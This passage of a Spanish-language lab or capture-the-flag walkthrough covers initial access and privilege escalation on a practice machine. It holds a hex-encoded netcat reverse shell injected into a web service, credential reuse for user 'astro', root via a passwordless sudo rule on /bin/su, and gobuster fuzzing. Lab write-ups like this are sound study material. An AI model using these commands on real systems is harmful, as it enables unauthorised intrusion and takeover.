 ```bash
# Reverse shell o acceso inicial
echo -n "nc -c sh 192.168.100.26 443;" | xxd -p

# Este output va en el input del servicio web
6e63202d63207368203139322e3136382e3130302e3236203434333b
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Enumeracion de usuairo del sistema
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
astro:x:1001:1001::/home/astro:/bin/sh
```

### Explotacion de Privilegios

###### Usuario `[ www-data ]`:
Una ves confirmada el usuario valido **astro** procedemos a usar las credenciales que antes ya habiamos encontrado para loguearnos como ese usuario
```bash
su astro # iloveastro
```

###### Usuario Contendor `[ Astro ]`:
LIstamos los permisos de este usuario:
```bash
sudo -l

User astro may run the following commands on 05cc10128c04:
    (ALL : ALL) NOPASSWD: /bin/su
```

Nos convertiomos en **root**
```bash
astro@05cc10128c04:~$ sudo -u root /bin/su root
```

Ahora realizando fuzzing en la siguente ruta:
```bash
gobuster dir -u http://192.168.100.31:5000/ -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 50 -x php,php.back,backup,txt,sh,html,js,java,py
```

Tenemos una nueva ruta:
```bash
/sniff.txt            (Status: 200) [Size: 72]
```
